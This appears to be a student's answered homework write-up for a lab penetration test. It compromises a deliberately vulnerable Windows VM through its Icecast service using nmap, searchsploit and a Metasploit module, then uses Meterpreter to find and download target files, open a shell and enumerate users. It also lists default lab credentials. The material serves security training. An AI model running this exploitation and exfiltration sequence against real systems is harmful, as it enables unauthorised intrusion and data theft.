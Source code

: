## Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `secretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

### Setup

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.

-  If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.

#### Scope

- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.

- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited.

- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.

- Since you've already been provided access to the network, OSINT won't be necessary.

#### Lab Environment

For this week's homework, please use the following VM setup:

- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

**NOTE**: You will need to login to the **DVW10** VM and start the `icecast` service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit **Enter**.
- The icecast application will launch.
- Click on **Start Server**.
- You are now ready to being the activity.

#### Deliverable

Once you complete this assignment, submit your findings in the following document:

- [Report.docx](Resources/Report.docx)

### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.

1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: nmap -sV 192.168.0.20
 ![Nmapcommand](images/Nmap.PNG)

2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

   - Run the SearchSploit commands to show available Icecast exploits.

     > Answer: searchsploit command in Kali
     ![searchsploit](images/searchsploit.PNG)
     2.
3. Now that we know which exploits are available to us, let's start Metasploit:

   - Run the command that starts Metasploit:

     > Answer: msfconsole
     ![msfconsole](images/msfconsole.PNG)

4. Search for the Icecast module and load it for use.

   - Run the command to search for the Icecast module:

     > Answer: search icecast
     ![msfconsole-search](images/msfconsole-search.PNG)


   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: use 0
     ![use](images/use.PNG)


5. Set the `RHOST` to the target machine.

   - Run the command that sets the `RHOST`:

     > Answer: set RHOSTS 192.168.0.20
 ![set-rhosts](images/set-rhosts.PNG)
6. Run the Icecast exploit.

   - Run the command that runs the Icecast exploit.

     > Answer: run
 ![run](images/run.PNG)
   - Run the command that performs a search for the `secretfile.txt` on the target.

     > Answer: `search -f *secretfile*.txt`
  ![secretfile location](images/secret-filepath.PNG)
 7. You should now have a Meterpreter session open.

    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: `search -f *recipe*.txt`
  ![recipe filepath](images/recipe-filepath.PNG)

    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:

      > Answer: download
   ![download](images/download.png)

![kali](images/kali-ls.PNG)

8. You can also use Meterpreter's local exploit suggester to find possible exploits.


   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.
![suggester](images/suggester.PNG)

#### Bonus


A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: run post/windows/gather/enum_all_logged_on_users
 ![Enumerate all logged in users](images/enumerate-loggedusers.PNG)

B. Open a Meterpreter shell and gather system information for the target.

  > Answer: shell
  ![shell](images/shell.PNG)

C. Run the command that displays the target's computer system information:

   > Answer: systeminfo
![systeminfo](images/systeminfo.PNG)


---
